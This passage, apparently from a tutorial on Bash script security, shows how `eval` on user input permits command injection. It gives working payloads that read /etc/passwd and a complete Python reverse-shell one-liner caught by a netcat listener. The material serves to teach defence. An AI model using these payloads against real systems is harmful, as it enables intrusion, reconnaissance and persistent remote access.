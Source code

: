 ~~~
Hello, who is this?
LocalUser;date
Welcome user: LocalUser
Sat 13 May 2023 00:54:16 SAST
~~~

As you can see, your welcome script allowed an attacker to read the date on your system! While this might sound harmless, a savvy attacker can use your script to gather information:

~~~
$ ./hello.sh 
~~~

This will output the following:

~~~
Hello, who is this?
LocalUser;cat /etc/passwd
Welcome user: LocalUser
<contents of /etc/passwd follows>
~~~

Now the attacker has a list of all the users on your system, and they can start looking for information to execute a privilege escalation attack (more on this next).

### Gaining Persistence

As you saw in the previous example, command injection is a serious risk when you use the `eval` statement in your Bash scripts. The same command injection method can be used by an attacker to gain a foothold on your server by exploiting vulnerabilities in other commands they're accessing via your insecure script. Your script could even be running as the root user already, in which case, the attacker can pretty much do anything they want like gaining persistence on your server.

"Gaining Persistence" refers to a malicious actor's ability to maintain their foothold or presence within a compromised system or network over an extended period of time.

To achieve this, an attacker can use your vulnerable script to create a [reverse shell](https://www.imperva.com/learn/application-security/reverse-shell/). Note that this method may differ slightly depending on the Linux distribution that's being targeted and the availability of default tools like [Python](https://www.python.org) or [Perl](https://www.perl.org) on the vulnerable box.

First, the attacker sets up a listening port on their attack box using `[netcat](https://nmap.org/ncat/)`:

~~~
$ nc -lvp 4444
~~~

This will output the following:

~~~
Listening on 0.0.0.0 4444
~~~

Then they use the `eval` in your `hello.sh` script to connect to their listening port, effectively giving themselves a shell on your vulnerable system:

~~~
user@localhost:$ ./hello.sh
Hello, who is this?
LocalUser;export RHOST="localhost";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
Welcome user: User

~~~
